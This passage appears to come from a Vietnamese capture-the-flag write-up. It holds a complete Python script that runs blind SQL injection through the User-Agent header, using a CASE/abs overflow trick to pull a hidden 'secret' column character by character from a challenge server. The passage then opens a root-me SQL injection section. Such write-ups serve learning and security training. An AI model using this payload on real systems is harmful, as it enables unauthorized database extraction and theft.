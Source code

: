 ⇒ Tìm được 2 cột là id và secret

- Ta sẽ khai thác cột secret bằng script sau:

```python
import requests

charset = 'abcdefghijklmnopqrstuvwxyz.0123456789_ABCDEFGHIJKLMNOPQRSTUVWXYZ!@#$%^&*()}{ ,'
url = "http://103.97.125.56:31115"

def find_flag(url):
    flag = ""
    for index in range(1, 100):
        found_char = False
        for c in charset:
            headers = {
                'User-Agent': f"', (SELECT CASE WHEN substr((SELECT secret FROM flag LIMIT 1), {index}, 1) = '{c}' THEN 1 ELSE abs(-9223372036854775808) END), null, null, null),(null,'"
            }
            print(f"Testing index {index}, char: {c}", end="\r")

            try:
                response = requests.post(url, headers=headers)
                response.raise_for_status()

                if "Logged" in response.text:
                    flag += c
                    found_char = True
                    print(f"\nFound char: {c}, Flag: {flag}")
                    break

            except requests.exceptions.RequestException as e:
                print(f"\nRequest Error: {e}")
                return None

        if not found_char:
            break

    return flag

flag = find_flag(url)
print("\nFlag: ", flag)
print("\nFinished!!!!!")
input("Press Enter to exit...")
```

⇒ Thành công lấy được flag: 

# III. root-me

### 1. **SQL injection - Authentication**
